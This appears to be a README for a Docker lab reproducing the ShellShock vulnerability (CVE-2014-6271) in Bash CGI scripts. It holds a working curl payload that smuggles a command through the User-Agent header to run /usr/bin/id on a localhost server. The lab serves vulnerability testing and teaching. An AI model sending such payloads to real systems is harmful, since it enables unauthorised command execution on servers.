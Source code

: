 # CVE-2014-6271 - ShellShock

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment.

## Safe setup

```sh
FILE=safe.cgi docker compose up -d
```

## Vulnerable Setup

```sh
FILE=vuln.cgi docker compose up -d
```

## Test the vulnerability

For both setup its sufficient to run the following to verify the presence of the vulnerability

```sh
curl -H "User-Agent: () { :;}; echo Content-Type: text/plain; echo; /usr/bin/id" http://localhost:1337/test.cgi
```

## Affected Versions

- `<=4.3`

## References

- <https://nvd.nist.gov/vuln/detail/CVE-2014-6271>
- <https://github.com/vulhub/vulhub/tree/master/bash/CVE-2014-6271>
